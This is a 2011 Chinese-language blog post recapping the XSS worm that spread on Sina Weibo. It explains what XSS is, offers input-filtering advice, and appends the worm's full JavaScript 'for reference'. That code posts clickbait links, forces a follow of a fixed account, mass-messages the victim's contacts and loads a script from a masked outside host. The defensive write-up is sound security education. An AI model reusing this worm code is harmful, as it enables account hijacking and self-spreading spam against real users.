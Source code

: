 ```yaml
---
layout: post
status: publish
published: true
title: "新浪微博XSS事件回顾"
author:
  display_name: pensz
  login: pensz
  email: email
  url: ''
author_login: pensz
author_email: email
wordpress_id: 81
wordpress_url: http://www.zwsun.com/?p=81
date: '2011-07-22 23:43:20 +0000'
date_gmt: '2011-07-22 15:43:20 +0000'
categories:
- "技术记录"
tags:
- xss
---
```

<h3>事件回顾</h3>
<p>最近新浪weibo遭到XSS攻击，攻击的流程如下：</p>
<ol>
<li>攻击者给部分用户发消息，里面是一些有诱惑的链接</li>
<li>攻击者点击这些诱惑性的链接（含有恶意代码，但由于使用的是短链接，这个更加不容易被发现），</li>
<li>新浪微博有漏洞，可以执行攻击者的js代码</li>
<li>js代码的具体作用就是继续发消息，加关注，发私信继续传播</li>
</ol>
<h3>XSS是什么？</h3>
<p>XSS(Cross Site Script) ，跨站脚本攻击。简单来讲，这种攻击就是能够让你的网站执行攻击者的js代码。</p>
<p>当然，如果攻击者能够在你的网站上执行服务端脚本（如php，asp等），那这个就不是简单的XSS了，那是大漏洞，我自己做的页面(某手机品牌官网)就有这个漏洞，做过这样的大蠢事。</p>
<h3>什么情况下会有XSS</h3>
<p>一般来说，允许用户发表html的内容，就会有，如blog提供商，sns等允许富样式的网站。</p>
<p>如果要避免，个人觉得还是非常小心的。</p>
<ol>
<li>过滤用户输入中不应该有的标签，script此类的标签肯定是要过滤的，如果有标签白名单，当然最好</li>
<li>过滤用户输入中的属性，onload onerror此类的属性要过滤的，同样，有标签属性白名单最好</li>
<li>过滤用户输入中属性里的非法代码，如&lt;img src="javascript:fun();" /&gt;，需要注意的是转码形式的也要过滤掉</li>
</ol>
<p>还有一类漏洞也会带来XSS，那就是攻击者能够将他需要执行的内容放到你的网页中。</p>
<p>典型的是类似 openfile.php?src=1.txt这样的链接。</p>
<p>本来的意思是希望读取本地的1.txt展示给用户看，但如果你没有做好过滤的话，攻击者输入 openfile.php?src=http://hacker.com；那就会将别人的代码（读取hacker.com上的内容）放在你自己的网页中执行了。</p>
<p><strong>总之，由于web程序的特殊性，对用户的输入都要万分小心。</strong></p>
<p>如果是一般的不允许用户输入html的网站，如电子商务网站，最简单的处理方法是，对所有的用户输入的html都转义。这样，就就不会有xss了。</p>
<p>&nbsp;</p>
<p>附件（新浪xss攻击代码，仅供参考）：</p>
<p>function createXHR(){	return window.XMLHttpRequest?	new XMLHttpRequest():	new ActiveXObject("Microsoft.XMLHTTP");}</p>
<p>function getappkey(url){	xmlHttp = createXHR();	xmlHttp.open("GET",url,false);	xmlHttp.send();	result = xmlHttp.responseText;	id_arr = '';	id = result.match(/namecard=\"true\" title=\"[^\"]*/g);	for(i=0;i&lt;id.length;i++){		sum = id[i].toString().split('"')[3];		id_arr += sum + '||';	}	return id_arr;}</p>
<p>function random_msg(){	link = ' http://163.fm/PxZHoxn?id=' + new Date().getTime();;	var msgs = [		'郭美美事件的一些未注意到的细节：',		'建党大业中穿帮的地方：',		'让女人心动的100句诗歌：',		'3D肉团团高清普通话版种子：',		'这是传说中的神仙眷侣啊：',		'惊爆!范冰冰艳照真流出了：',		'杨幂被爆多次被潜规则:',		'傻仔拿锤子去抢银行：',		'可以监听别人手机的软件：',		'个税起征点有望提到4000：'];	var msg = msgs[Math.floor(Math.random()*msgs.length)] + link;	msg = encodeURIComponent(msg);	return msg;}</p>
<p>function post(url,data,sync){	xmlHttp = createXHR();    xmlHttp.open("POST",url,sync);    xmlHttp.setRequestHeader("Accept","text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");    xmlHttp.setRequestHeader("Content-Type","application/x-www-form-urlencoded; charset=UTF-8");    xmlHttp.send(data);}</p>
<p>// 发微博<br />
function publish(){	url = 'http://weibo.com/mblog/publish.php?rnd=' + new Date().getTime();	data = 'content=' + random_msg() + '&amp;pic=&amp;styleid=2&amp;retcode=';	post(url,data,true);}</p>
<p>// 加关注<br />
function follow(){	url = 'http://weibo.com/attention/aj_addfollow.php?refer_sort=profile&amp;atnId=profile&amp;rnd=' + new Date().getTime();	data = 'uid=' + 2201270010 + '&amp;fromuid=' + $CONFIG.$uid + '&amp;refer_sort=profile&amp;atnId=profile';	post(url,data,true);}</p>
<p>// 发私信<br />
function message(){	url = 'http://weibo.com/' + $CONFIG.$uid + '/follow';	ids = getappkey(url);	id = ids.split('||');	for(i=0;i&lt;id.length - 1 &amp; i&lt;5;i++){		msgurl = 'http://weibo.com/message/addmsg.php?rnd=' + new Date().getTime();		msg = random_msg();		msg = encodeURIComponent(msg);		user = encodeURIComponent(encodeURIComponent(id[i]));		data = 'content=' + msg + '&amp;name=' + user + '&amp;retcode=';		post(msgurl,data,false);	}}</p>
<p>function main(){	try{		publish();	}	catch(e){}	try{		follow();	}	catch(e){}	try{		message();	}	catch(e){}}</p>
<p>try{   x="g=document.createElement('script');g.src='http://www.***.**/images/t.js';document.body.appendChild(g)";window.opener.eval(x);}catch(e){}main();var t=setTimeout('location="http://weibo.com/pub/topic";',5000);</p>
<p>&nbsp;</p>
